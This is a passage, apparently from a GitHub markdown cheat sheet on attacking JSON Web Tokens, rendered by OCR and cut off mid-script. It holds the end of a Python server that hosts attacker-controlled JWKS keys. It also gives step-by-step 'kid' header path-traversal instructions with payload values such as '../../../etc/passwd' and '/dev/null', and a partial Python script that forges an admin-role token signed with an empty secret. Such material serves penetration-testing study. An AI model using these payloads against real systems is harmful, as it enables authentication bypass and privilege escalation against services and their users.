        
       class JWKSHandler(BaseHTTPRequestHandler):
           def do_GET(self):
               self.send_response(200)
               self.send_header('Content-Type', 'application/json')
               self.end_headers()
               self.wfile.write(json.dumps(jwks_data).encode())
       
       httpd = HTTPServer(('0.0.0.0', 8080), JWKSHandler)
       print("JWKS server running at http://0.0.0.0:8080/")
       httpd.serve_forever()
       ```

  - **Kid (Key ID) parameter attacks**
    1. **KID header path traversal attack**:
       - Step 1: Capture a valid JWT token
       - Step 2: Identify the key ID (`kid`) parameter in the header
       - Step 3: Modify the `kid` parameter to point to a predictable file on the server
       - Step 4: Modify the payload claims as desired
       - Step 5: Sign the token with the content of the targeted file as the key
       - Step 6: Send the modified token to the server
       - Example values to try: `kid: "../../../etc/passwd"`, `kid: "/dev/null"`
       - Note: For `/dev/null`, sign with an empty string as the secret
       - Python script for path traversal in `kid`:
       ```python
       import jwt
       import base64
       import json
       
       # Original JWT
       original_jwt = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImtleTEifQ.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.signature"
       
       # Decode header and payload
       header_b64, payload_b64, signature = original_jwt.split('.')
       header = json.loads(base64.urlsafe_b64decode(header_b64 + "=" * (4 - len(header_b64) % 4)).decode())
       payload = json.loads(base64.urlsafe_b64decode(payload_b64 + "=" * (4 - len(payload_b64) % 4)).decode())
       
       # Modify header to include path traversal in kid
       header["kid"] = "../../../dev/null"
       
       # Modify payload claims
       payload["role"] = "admin"
       
       # Sign with empty string for /dev/null
       secret = ""  # Content of /dev/null is empty
       